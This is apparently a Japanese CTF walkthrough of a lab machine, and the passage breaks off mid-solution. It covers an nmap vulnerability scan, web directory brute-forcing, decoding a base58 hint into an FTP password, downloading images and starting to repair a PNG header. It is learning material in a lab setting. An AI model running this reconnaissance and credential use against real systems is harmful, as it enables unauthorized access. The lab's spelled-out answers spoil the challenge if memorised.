


$ nmap 10.49.165.104 -p- -T4
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-27 09:36 +0900
Nmap scan report for 10.49.165.104
Host is up (0.13s latency).
Not shown: 65530 closed tcp ports (reset)
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
53155/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 71.49 seconds
5つのポートを発見した
-sCV --script=vulnを実施したところ
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.2
| vulners:
| vsftpd 3.0.2:
| CVE-2021-3618 7.4 https://vulners.com/cve/CVE-2021-3618
|_ CVE-2015-1419 5.0 https://vulners.com/cve/CVE-2015-1419
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| vulners:
| cpe:/a:openbsd:openssh:6.7p1:
| DF059135-2CF5-5441-8F22-E6EF1DEE5F6E 10.0 https://vulners.com/gitee/DF059135-2CF5-5441-8F22-E6EF1DEE5F6E *EXPLOIT*
| PACKETSTORM:173661 9.8 https://vulners.com/packetstorm/PACKETSTORM:173661 *EXPLOIT*
| F0979183-AE88-53B4-86CF-3AF0523F3807 9.8 https://vulners.com/githubexploit/F0979183-AE88-53B4-86CF-3AF0523F3807 *EXPLOIT*
| CVE-2023-38408 9.8 https://vulners.com/cve/CVE-2023-38408
| CVE-2016-1908 9.8 https://vulners.com/cve/CVE-2016-1908
| CEF8EC43-BFE2-5B5E-8918-54A90DA092B4 9.8 https://vulners.com/githubexploit/CEF8EC43-BFE2-5B5E-8918-54A90DA092B4 *EXPLOIT*
| B8190CDB-3EB9-5631-9828-8064A1575B23 9.8 https://vulners.com/githubexploit/B8190CDB-3EB9-5631-9828-8064A1575B23 *EXPLOIT*
| A2B36B85-C737-548F-8C04-9339EDCDBFF5 9.8 https://vulners.com/githubexploit/A2B36B85-C737-548F-8C04-9339EDCDBFF5 *EXPLOIT*
| 8FC9C5AB-3968-5F3C-825E-E8DB5379A623 9.8 https://vulners.com/githubexploit/8FC9C5AB-3968-5F3C-825E-E8DB5379A623 *EXPLOIT*
| 8AD01159-548E-546E-AA87-2DE89F3927EC 9.8 https://vulners.com/githubexploit/8AD01159-548E-546E-AA87-2DE89F3927EC *EXPLOIT*
| 6192C35D-F78B-5C0A-AB8D-9826A79A5320 9.8 https://vulners.com/githubexploit/6192C35D-F78B-5C0A-AB8D-9826A79A5320 *EXPLOIT*
| 2227729D-6700-5C8F-8930-1EEAFD4B9FF0 9.8 https://vulners.com/githubexploit/2227729D-6700-5C8F-8930-1EEAFD4B9FF0 *EXPLOIT*
| 0221525F-07F5-5790-912D-F4B9E2D1B587 9.8 https://vulners.com/githubexploit/0221525F-07F5-5790-912D-F4B9E2D1B587 *EXPLOIT*
| CVE-2015-5600 8.5 https://vulners.com/cve/CVE-2015-5600
| CVE-2026-35414 8.1 https://vulners.com/cve/CVE-2026-35414
| CVE-2026-35386 8.1 https://vulners.com/cve/CVE-2026-35386
| CVE-2026-35385 8.1 https://vulners.com/cve/CVE-2026-35385
| CVE-2016-0778 8.1 https://vulners.com/cve/CVE-2016-0778
| BA3887BD-F579-53B1-A4A4-FF49E953E1C0 8.1 https://vulners.com/githubexploit/BA3887BD-F579-53B1-A4A4-FF49E953E1C0 *EXPLOIT*
| 4FB01B00-F993-5CAF-BD57-D7E290D10C1F 8.1 https://vulners.com/githubexploit/4FB01B00-F993-5CAF-BD57-D7E290D10C1F *EXPLOIT*
| 055DEFEB-CD2B-5C05-8024-AA3008C76046 8.1 https://vulners.com/gitee/055DEFEB-CD2B-5C05-8024-AA3008C76046 *EXPLOIT*
| PACKETSTORM:140070 7.8 https://vulners.com/packetstorm/PACKETSTORM:140070 *EXPLOIT*
| EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09 7.8 https://vulners.com/exploitpack/EXPLOITPACK:5BCA798C6BA71FAE29334297EC0B6A09 *EXPLOIT*
| EDB-ID:40888 7.8 https://vulners.com/exploitdb/EDB-ID:40888 *EXPLOIT*
| CVE-2020-15778 7.8 https://vulners.com/cve/CVE-2020-15778
| CVE-2016-6515 7.8 https://vulners.com/cve/CVE-2016-6515
| CVE-2016-10012 7.8 https://vulners.com/cve/CVE-2016-10012
| CVE-2015-8325 7.8 https://vulners.com/cve/CVE-2015-8325
| C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3 7.8 https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3 *EXPLOIT*
| 991D2CC4-0E09-5745-97A2-4917461BD6EC 7.8 https://vulners.com/githubexploit/991D2CC4-0E09-5745-97A2-4917461BD6EC *EXPLOIT*
| 312165E3-7FD9-5769-BDA3-4129BE9114D6 7.8 https://vulners.com/githubexploit/312165E3-7FD9-5769-BDA3-4129BE9114D6 *EXPLOIT*
| 2E719186-2FED-58A8-A150-762EFBAAA523 7.8 https://vulners.com/gitee/2E719186-2FED-58A8-A150-762EFBAAA523 *EXPLOIT*
| 23CC97BE-7C95-513B-9E73-298C48D74432 7.8 https://vulners.com/githubexploit/23CC97BE-7C95-513B-9E73-298C48D74432 *EXPLOIT*
| 1337DAY-ID-26494 7.8 https://vulners.com/zdt/1337DAY-ID-26494 *EXPLOIT*
| 10213DBE-F683-58BB-B6D3-353173626207 7.8 https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207 *EXPLOIT*
| SSV:92579 7.5 https://vulners.com/seebug/SSV:92579 *EXPLOIT*
| CVE-2016-10708 7.5 https://vulners.com/cve/CVE-2016-10708
| CVE-2016-10009 7.5 https://vulners.com/cve/CVE-2016-10009
| CF52FA19-B5DB-5D14-B50F-2411851976E2 7.5 https://vulners.com/githubexploit/CF52FA19-B5DB-5D14-B50F-2411851976E2 *EXPLOIT*
| 1337DAY-ID-26576 7.5 https://vulners.com/zdt/1337DAY-ID-26576 *EXPLOIT*
| SSV:92582 7.2 https://vulners.com/seebug/SSV:92582 *EXPLOIT*
| CVE-2021-41617 7.0 https://vulners.com/cve/CVE-2021-41617
| CVE-2016-10010 7.0 https://vulners.com/cve/CVE-2016-10010
| 284B94FC-FD5D-5C47-90EA-47900DAD1D1E 7.0 https://vulners.com/githubexploit/284B94FC-FD5D-5C47-90EA-47900DAD1D1E *EXPLOIT*
| SSV:92580 6.9 https://vulners.com/seebug/SSV:92580 *EXPLOIT*
| CVE-2015-6564 6.9 https://vulners.com/cve/CVE-2015-6564
| 1337DAY-ID-26577 6.9 https://vulners.com/zdt/1337DAY-ID-26577 *EXPLOIT*
| EDB-ID:46516 6.8 https://vulners.com/exploitdb/EDB-ID:46516 *EXPLOIT*
| EDB-ID:46193 6.8 https://vulners.com/exploitdb/EDB-ID:46193 *EXPLOIT*
| CVE-2019-6110 6.8 https://vulners.com/cve/CVE-2019-6110
| CVE-2019-6109 6.8 https://vulners.com/cve/CVE-2019-6109
| 1337DAY-ID-32328 6.8 https://vulners.com/zdt/1337DAY-ID-32328 *EXPLOIT*
| 1337DAY-ID-32009 6.8 https://vulners.com/zdt/1337DAY-ID-32009 *EXPLOIT*
| D104D2BF-ED22-588B-A9B2-3CCC562FE8C0 6.5 https://vulners.com/githubexploit/D104D2BF-ED22-588B-A9B2-3CCC562FE8C0 *EXPLOIT*
| CVE-2026-35387 6.5 https://vulners.com/cve/CVE-2026-35387
| CVE-2023-51385 6.5 https://vulners.com/cve/CVE-2023-51385
| CVE-2016-0777 6.5 https://vulners.com/cve/CVE-2016-0777
| C07ADB46-24B8-57B7-B375-9C761F4750A2 6.5 https://vulners.com/githubexploit/C07ADB46-24B8-57B7-B375-9C761F4750A2 *EXPLOIT*
| A88CDD3E-67CC-51CC-97FB-AB0CACB6B08C 6.5 https://vulners.com/githubexploit/A88CDD3E-67CC-51CC-97FB-AB0CACB6B08C *EXPLOIT*
| 65B15AA1-2A8D-53C1-9499-69EBA3619F1C 6.5 https://vulners.com/githubexploit/65B15AA1-2A8D-53C1-9499-69EBA3619F1C *EXPLOIT*
| 5325A9D6-132B-590C-BDEF-0CB105252732 6.5 https://vulners.com/gitee/5325A9D6-132B-590C-BDEF-0CB105252732 *EXPLOIT*
| 530326CF-6AB3-5643-AA16-73DC8CB44742 6.5 https://vulners.com/githubexploit/530326CF-6AB3-5643-AA16-73DC8CB44742 *EXPLOIT*
| EDB-ID:40858 6.4 https://vulners.com/exploitdb/EDB-ID:40858 *EXPLOIT*
| EDB-ID:40119 6.4 https://vulners.com/exploitdb/EDB-ID:40119 *EXPLOIT*
| EDB-ID:39569 6.4 https://vulners.com/exploitdb/EDB-ID:39569 *EXPLOIT*
| CVE-2016-3115 6.4 https://vulners.com/cve/CVE-2016-3115
| PACKETSTORM:181223 5.9 https://vulners.com/packetstorm/PACKETSTORM:181223 *EXPLOIT*
| MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS- 5.9 https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS- *EXPLOIT*
| FEF0EB06-770B-5ADF-857C-1704B7AC3FE4 5.9 https://vulners.com/githubexploit/FEF0EB06-770B-5ADF-857C-1704B7AC3FE4 *EXPLOIT*
| FD2E0EBA-ED84-5304-8862-84BCDEB2F288 5.9 https://vulners.com/githubexploit/FD2E0EBA-ED84-5304-8862-84BCDEB2F288 *EXPLOIT*
| EDB-ID:45939 5.9 https://vulners.com/exploitdb/EDB-ID:45939 *EXPLOIT*
| EDB-ID:45233 5.9 https://vulners.com/exploitdb/EDB-ID:45233 *EXPLOIT*
| EDB-ID:40136 5.9 https://vulners.com/exploitdb/EDB-ID:40136 *EXPLOIT*
| EDB-ID:40113 5.9 https://vulners.com/exploitdb/EDB-ID:40113 *EXPLOIT*
| CVE-2023-48795 5.9 https://vulners.com/cve/CVE-2023-48795
| CVE-2020-14145 5.9 https://vulners.com/cve/CVE-2020-14145
| CVE-2019-6111 5.9 https://vulners.com/cve/CVE-2019-6111
| CVE-2018-15473 5.9 https://vulners.com/cve/CVE-2018-15473
| CVE-2016-6210 5.9 https://vulners.com/cve/CVE-2016-6210
| CNVD-2021-25272 5.9 https://vulners.com/cnvd/CNVD-2021-25272
| A4C45A40-ADC5-50EF-8FFC-4047AA0F987B 5.9 https://vulners.com/githubexploit/A4C45A40-ADC5-50EF-8FFC-4047AA0F987B *EXPLOIT*
| A02ABE85-E4E3-5852-A59D-DF288CB8160A 5.9 https://vulners.com/githubexploit/A02ABE85-E4E3-5852-A59D-DF288CB8160A *EXPLOIT*
| 721F040C-37BC-59E1-9433-01A2EAC2E755 5.9 https://vulners.com/githubexploit/721F040C-37BC-59E1-9433-01A2EAC2E755 *EXPLOIT*
| 6D74A425-60A7-557A-B469-1DD96A2D8FF8 5.9 https://vulners.com/githubexploit/6D74A425-60A7-557A-B469-1DD96A2D8FF8 *EXPLOIT*
| EXPLOITPACK:98FE96309F9524B8C84C508837551A19 5.8 https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19 *EXPLOIT*
| EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97 5.8 https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97 *EXPLOIT*
| SSV:91041 5.5 https://vulners.com/seebug/SSV:91041 *EXPLOIT*
| PACKETSTORM:140019 5.5 https://vulners.com/packetstorm/PACKETSTORM:140019 *EXPLOIT*
| PACKETSTORM:136251 5.5 https://vulners.com/packetstorm/PACKETSTORM:136251 *EXPLOIT*
| PACKETSTORM:136234 5.5 https://vulners.com/packetstorm/PACKETSTORM:136234 *EXPLOIT*
| EXPLOITPACK:F92411A645D85F05BDBD274FD222226F 5.5 https://vulners.com/exploitpack/EXPLOITPACK:F92411A645D85F05BDBD274FD222226F *EXPLOIT*
| EXPLOITPACK:9F2E746846C3C623A27A441281EAD138 5.5 https://vulners.com/exploitpack/EXPLOITPACK:9F2E746846C3C623A27A441281EAD138 *EXPLOIT*
| EXPLOITPACK:1902C998CBF9154396911926B4C3B330 5.5 https://vulners.com/exploitpack/EXPLOITPACK:1902C998CBF9154396911926B4C3B330 *EXPLOIT*
| CVE-2016-10011 5.5 https://vulners.com/cve/CVE-2016-10011
| 1337DAY-ID-25388 5.5 https://vulners.com/zdt/1337DAY-ID-25388 *EXPLOIT*
| FD18B68B-C0A6-562E-A8C8-781B225F15B0 5.3 https://vulners.com/githubexploit/FD18B68B-C0A6-562E-A8C8-781B225F15B0 *EXPLOIT*
| E9EC0911-E2E1-52A7-B2F4-D0065C6A3057 5.3 https://vulners.com/githubexploit/E9EC0911-E2E1-52A7-B2F4-D0065C6A3057 *EXPLOIT*
| CVE-2018-20685 5.3 https://vulners.com/cve/CVE-2018-20685
| CVE-2018-15919 5.3 https://vulners.com/cve/CVE-2018-15919
| CVE-2017-15906 5.3 https://vulners.com/cve/CVE-2017-15906
| CVE-2016-20012 5.3 https://vulners.com/cve/CVE-2016-20012
| CNVD-2018-20962 5.3 https://vulners.com/cnvd/CNVD-2018-20962
| CNVD-2018-20960 5.3 https://vulners.com/cnvd/CNVD-2018-20960
| A9E6F50E-E7FC-51D0-9C93-A43461469FA2 5.3 https://vulners.com/githubexploit/A9E6F50E-E7FC-51D0-9C93-A43461469FA2 *EXPLOIT*
| A801235B-9835-5BA8-B8FE-23B7FFCABD66 5.3 https://vulners.com/githubexploit/A801235B-9835-5BA8-B8FE-23B7FFCABD66 *EXPLOIT*
| 8DD1D813-FD5A-5B26-867A-CE7CAC9FEEDF 5.3 https://vulners.com/gitee/8DD1D813-FD5A-5B26-867A-CE7CAC9FEEDF *EXPLOIT*
| 4F2FBB06-E601-5EAD-9679-3395D24057DD 5.3 https://vulners.com/githubexploit/4F2FBB06-E601-5EAD-9679-3395D24057DD *EXPLOIT*
| 486BB6BC-9C26-597F-B865-D0E904FDA984 5.3 https://vulners.com/githubexploit/486BB6BC-9C26-597F-B865-D0E904FDA984 *EXPLOIT*
| 2385176A-820F-5469-AB09-C340264F2B2F 5.3 https://vulners.com/gitee/2385176A-820F-5469-AB09-C340264F2B2F *EXPLOIT*
| 1337DAY-ID-31730 5.3 https://vulners.com/zdt/1337DAY-ID-31730 *EXPLOIT*
| SSH_ENUM 5.0 https://vulners.com/canvas/SSH_ENUM *EXPLOIT*
| PACKETSTORM:150621 5.0 https://vulners.com/packetstorm/PACKETSTORM:150621 *EXPLOIT*
| EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0 5.0 https://vulners.com/exploitpack/EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0 *EXPLOIT*
| EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283 5.0 https://vulners.com/exploitpack/EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283 *EXPLOIT*
| SSV:90447 4.6 https://vulners.com/seebug/SSV:90447 *EXPLOIT*
| EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF 4.3 https://vulners.com/exploitpack/EXPLOITPACK:802AF3229492E147A5F09C7F2B27C6DF *EXPLOIT*
| EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF 4.3 https://vulners.com/exploitpack/EXPLOITPACK:5652DDAA7FE452E19AC0DC1CD97BA3EF *EXPLOIT*
| CVE-2015-5352 4.3 https://vulners.com/cve/CVE-2015-5352
| 1337DAY-ID-25440 4.3 https://vulners.com/zdt/1337DAY-ID-25440 *EXPLOIT*
| 1337DAY-ID-25438 4.3 https://vulners.com/zdt/1337DAY-ID-25438 *EXPLOIT*
| CVE-2021-36368 3.7 https://vulners.com/cve/CVE-2021-36368
| CVE-2025-61985 3.6 https://vulners.com/cve/CVE-2025-61985
| CVE-2025-61984 3.6 https://vulners.com/cve/CVE-2025-61984
| B7EACB4F-A5CF-5C5A-809F-E03CCE2AB150 3.6 https://vulners.com/githubexploit/B7EACB4F-A5CF-5C5A-809F-E03CCE2AB150 *EXPLOIT*
| 4C6E2182-0E99-5626-83F6-1646DD648C57 3.6 https://vulners.com/githubexploit/4C6E2182-0E99-5626-83F6-1646DD648C57 *EXPLOIT*
| CVE-2026-35388 2.5 https://vulners.com/cve/CVE-2026-35388
| SSV:92581 2.1 https://vulners.com/seebug/SSV:92581 *EXPLOIT*
| CVE-2015-6563 1.9 https://vulners.com/cve/CVE-2015-6563
| PACKETSTORM:151227 0.0 https://vulners.com/packetstorm/PACKETSTORM:151227 *EXPLOIT*
| PACKETSTORM:140261 0.0 https://vulners.com/packetstorm/PACKETSTORM:140261 *EXPLOIT*
| PACKETSTORM:138006 0.0 https://vulners.com/packetstorm/PACKETSTORM:138006 *EXPLOIT*
| PACKETSTORM:137942 0.0 https://vulners.com/packetstorm/PACKETSTORM:137942 *EXPLOIT*
| 1337DAY-ID-30937 0.0 https://vulners.com/zdt/1337DAY-ID-30937 *EXPLOIT*
| 1337DAY-ID-26468 0.0 https://vulners.com/zdt/1337DAY-ID-26468 *EXPLOIT*
|_ 1337DAY-ID-25391 0.0 https://vulners.com/zdt/1337DAY-ID-25391 *EXPLOIT*
ftpに２つとsshに大量の脆弱性が見つかった
feroxbusterをかけると/islandが見つかった

コロンのあとになにかありそうだったので探したらあった

ftpログインを試してみるとこのユーザー名のアカウントが存在した
パスワードは分からない
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ ftp 10.49.165.104
Connected to 10.49.165.104.
220 (vsFTPd 3.0.2)
Name (10.49.165.104:rkametani): anonymous
530 Permission denied.
ftp: Login failed
ftp> exit
221 Goodbye.
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ ftp 10.49.165.104
Connected to 10.49.165.104.
220 (vsFTPd 3.0.2)
Name (10.49.165.104:rkametani): vigilante
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp>
ftp> exit
221 Goodbye.
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ ftp 10.49.165.104
Connected to 10.49.165.104.
220 (vsFTPd 3.0.2)
Name (10.49.165.104:rkametani): aaaaaa
530 Permission denied.
ftp: Login failed
ftp> exit
221 Goodbye.
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$
RPCとはremote procedure callで「リモートのプログラムを呼び出せる仕組み」
NFSはこれを使ってファイルの読み書きをリモートで実行するので
111番にrpcbindが見えた段階でNFSを疑える
また53155番にstatusサービスが見えてるのでrpcbindが現状生きていることが確認できる
rpcbindが動いているということはNFS共有が公開されている可能性が高い
NFSはIPさえあれば誰でも読める設定になっていることが多く
ssh鍵や他のクレデンシャルが落ちていることが多い
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ showmount -e 10.49.165.104
clnt_create: RPC: Program not registered
収穫なし
/islandの中身を見てみる
| |
|---|
|<!DOCTYPE html>|
|<html>|
|<body>|
|<style>|
||
|</style>|
|<h1> Ohhh Noo, Don't Talk............... </h1>|
||
||
||
||
||
|<p> I wasn't Expecting You at this Moment. I will meet you there </p><!-- go!go!go! -->|
||
||
||
||
||
||
|<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>|
||
|</body>|
|</html>|
||
||
go go go というのはgobusterのことかもしれない
はじめのferoxでは/islandしかヒットしなかったがもう少し大きいワードリストでやってみる価値があるのかもしれない
/usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txtという大きなワードリストがある
これにはディレクトリ名もファイル名も入っている
/etc/feroxbuster/ferox-config.tomlを編集してデフォルトワードリストに設定する
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ feroxbuster -u http://10.49.165.104/island/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
___ ___ __ __ __ __ __ ___
|__ |__ |__) |__) | / ` / \ \_/ | | \ |__
| |___ | \ | \ | \__, \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓 ver: 2.13.1
───────────────────────────┬──────────────────────
🎯 Target Url │ http://10.49.165.104/island
🚩 In-Scope Url │ 10.49.165.104
🚀 Threads │ 50
📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
👌 Status Codes │ All Status Codes!
💥 Timeout (secs) │ 7
🦡 User-Agent │ feroxbuster/2.13.1
💉 Config File │ /etc/feroxbuster/ferox-config.toml
🔎 Extract Links │ true
🏁 HTTP methods │ [GET]
🔃 Recursion Depth │ 4
───────────────────────────┴──────────────────────
🏁 Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404 GET 7l 23w 196c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403 GET 7l 20w 199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301 GET 7l 20w 236c http://10.49.165.104/island => http://10.49.165.104/island/
301 GET 7l 20w 241c http://10.49.165.104/island/2100 => http://10.49.165.104/island/2100/
/island/2100が見つかった
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ curl http://10.49.165.104/island/2100/ -s
<!DOCTYPE html>
<html>
<body>
<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>
<p align=center >
<iframe width="640" height="480" src="https://www.youtube.com/embed/X8ZiFuW41yY">
</iframe> <p>
<!-- you can avail your .ticket here but how? -->
</header>
</body>
</html>
GUIでは確認できなかったコメントを発見した
-x ticketで拡張子を指定して再度feroxしてみる
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ feroxbuster -u http://10.49.165.104/island/2100/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -x ticket
___ ___ __ __ __ __ __ ___
|__ |__ |__) |__) | / ` / \ \_/ | | \ |__
| |___ | \ | \ | \__, \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓 ver: 2.13.1
───────────────────────────┬──────────────────────
🎯 Target Url │ http://10.49.165.104/island/2100
🚩 In-Scope Url │ 10.49.165.104
🚀 Threads │ 50
📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
👌 Status Codes │ All Status Codes!
💥 Timeout (secs) │ 7
🦡 User-Agent │ feroxbuster/2.13.1
💉 Config File │ /etc/feroxbuster/ferox-config.toml
🔎 Extract Links │ true
💲 Extensions │ [ticket]
🏁 HTTP methods │ [GET]
🔃 Recursion Depth │ 4
───────────────────────────┴──────────────────────
🏁 Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404 GET 7l 23w 196c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403 GET 7l 20w 199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301 GET 7l 20w 241c http://10.49.165.104/island/2100 => http://10.49.165.104/island/2100/
200 GET 6l 11w 71c http://10.49.165.104/island/2100/green_arrow.ticket
みつかった
アクセスしてRTy8yhBQdscXを得た
crackstationにかけても見つからない
ftpのパスワードにいれてみる
だめだった
これ絶対平文じゃないと思うんだよな
まず文字数を見る
12文字→MD5（32文字）、SHA1（40文字）ではない
でも４の倍数だからbase64（４の倍数（＝パディングあり））の可能性？
ただcyberchefでfrom base64が通らない
ここでbase64まわりに関する知識として「base58」を思い出す
これはbase64とは異なり、+,/,=が出ない
また視認性向上のため0oIlが使われないという特徴がある
今回の文字列がその条件に適合しているため、試す価値がある
としてデコードしたのが!#th3h00dでありこれでftpが通る
ありえなさすぎる
┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ ftp vigilante@10.49.165.104
Connected to 10.49.165.104.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||29463|).
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 511720 May 01 2020 Leave_me_alone.png
-rw-r--r-- 1 0 0 549924 May 05 2020 Queen's_Gambit.png
-rw-r--r-- 1 0 0 191026 May 01 2020 aa.jpg
226 Directory send OK.
ftp> get Leave_me_alone.png
local: Leave_me_alone.png remote: Leave_me_alone.png
229 Entering Extended Passive Mode (|||11199|).
150 Opening BINARY mode data connection for Leave_me_alone.png (511720 bytes).
100% |***************************************************| 499 KiB 769.31 KiB/s 00:00 ETA
226 Transfer complete.
511720 bytes received in 00:00 (641.40 KiB/s)
ftp> get Queen's_Gambit.png
local: Queen's_Gambit.png remote: Queen's_Gambit.png
229 Entering Extended Passive Mode (|||63716|).
150 Opening BINARY mode data connection for Queen's_Gambit.png (549924 bytes).
100% |***************************************************| 537 KiB 688.71 KiB/s 00:00 ETA
226 Transfer complete.
549924 bytes received in 00:00 (590.89 KiB/s)
ftp> get aa.jpg
local: aa.jpg remote: aa.jpg
229 Entering Extended Passive Mode (|||50860|).
150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
100% |***************************************************| 186 KiB 358.48 KiB/s 00:00 ETA
226 Transfer complete.
191026 bytes received in 00:00 (286.37 KiB/s)
ftp> exit
221 Goodbye.
ftpログインに成功し３つの画像ファイルを持ち出すことに成功した
それぞれ解析していく
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ exiftool Leave_me_alone.png
ExifTool Version Number : 13.55
File Name : Leave_me_alone.png
Directory : .
File Size : 512 kB
File Modification Date/Time : 2020:05:01 12:26:06+09:00
File Access Date/Time : 2026:05:27 11:51:31+09:00
File Inode Change Date/Time : 2026:05:27 11:51:31+09:00
File Permissions : -rw-rw-r--
Error : File format error
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ exiftool Queen\'s_Gambit.png
ExifTool Version Number : 13.55
File Name : Queen's_Gambit.png
Directory : .
File Size : 550 kB
File Modification Date/Time : 2020:05:05 20:10:55+09:00
File Access Date/Time : 2026:05:27 11:51:31+09:00
File Inode Change Date/Time : 2026:05:27 11:51:31+09:00
File Permissions : -rw-rw-r--
File Type : PNG
File Type Extension : png
MIME Type : image/png
Image Width : 1280
Image Height : 720
Bit Depth : 8
Color Type : RGB with Alpha
Compression : Deflate/Inflate
Filter : Adaptive
Interlace : Noninterlaced
SRGB Rendering : Perceptual
XMP Toolkit : XMP Core 5.4.0
Orientation : Horizontal (normal)
Image Size : 1280x720
Megapixels : 0.922
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ exiftool aa.jpg
ExifTool Version Number : 13.55
File Name : aa.jpg
Directory : .
File Size : 191 kB
File Modification Date/Time : 2020:05:01 12:25:59+09:00
File Access Date/Time : 2026:05:27 11:51:31+09:00
File Inode Change Date/Time : 2026:05:27 11:51:31+09:00
File Permissions : -rw-rw-r--
File Type : JPEG
File Type Extension : jpg
MIME Type : image/jpeg
JFIF Version : 1.01
Resolution Unit : None
X Resolution : 1
Y Resolution : 1
Image Width : 1200
Image Height : 1600
Encoding Process : Baseline DCT, Huffman coding
Bits Per Sample : 8
Color Components : 3
Y Cb Cr Sub Sampling : YCbCr4:2:0 (2 2)
Image Size : 1200x1600
Megapixels : 1.9
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$
１つ目のファイルがFile format errorなので別の拡張子かもしれない
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ file Leave_me_alone.png Queen\'s_Gambit.png aa.jpg
Leave_me_alone.png: data
Queen's_Gambit.png: PNG image data, 1280 x 720, 8-bit/color RGBA, non-interlaced
aa.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 1200x1600, components 3
fileコマンドを使うとやはりpngではない
xxdコマンドで見てみる
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$ xxd Leave_me_alone.png | head -5
00000000: 5845 6fae 0a0d 1a0a 0000 000d 4948 4452 XEo.........IHDR
00000010: 0000 034d 0000 01db 0806 0000 0017 a371 ...M...........q
00000020: 5b00 0020 0049 4441 5478 9cac bde9 7a24 [.. .IDATx....z$
00000030: 4b6e 2508 33f7 e092 6466 dea5 557b 6934 Kn%.3...df..U{i4
00000040: 6a69 54fd f573 cebc c03c 9c7e b4d4 a556 jiT..s...<.~...V
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
└─$
先頭8バイトはPNGシグネチャを示していないがIDATという画像データを表す文字列が確認できることから
先頭を修復せんとしてみむ
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/lianyu]
